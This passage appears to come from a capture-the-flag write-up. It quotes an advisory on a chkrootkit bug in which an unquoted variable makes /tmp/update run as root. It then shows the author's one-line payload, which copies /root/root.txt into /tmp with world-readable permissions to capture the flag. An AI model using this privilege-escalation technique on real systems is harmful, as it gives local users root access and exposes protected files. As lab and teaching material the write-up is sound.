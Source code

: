 ```
      fi
   done
   if [ ${STATUS} -eq 1 ] ;then
      echo "Warning: Possible Slapper Worm installed ($file_port)"
   else
      if [ "${QUIET}" != "t" ]; then echo "not infected"; fi
         return ${NOT_INFECTED}
   fi
}

The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.

Suggested fix: Put quotation marks around the assignment.

file_port="$file_port $i"

I will also try to contact upstream, although the latest version of
chkrootkit dates back to 2009 - will have to see, if I reach a dev there.
```

So, It is telling to put an executable file named 'update' with non-root owner in /tmp. and it should be enough to get root shell.

I ran the following command

```bash
echo "cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt" > update
```

After a minute, we got the root flag

![Untitled](uploads/Untitled%2018.png)
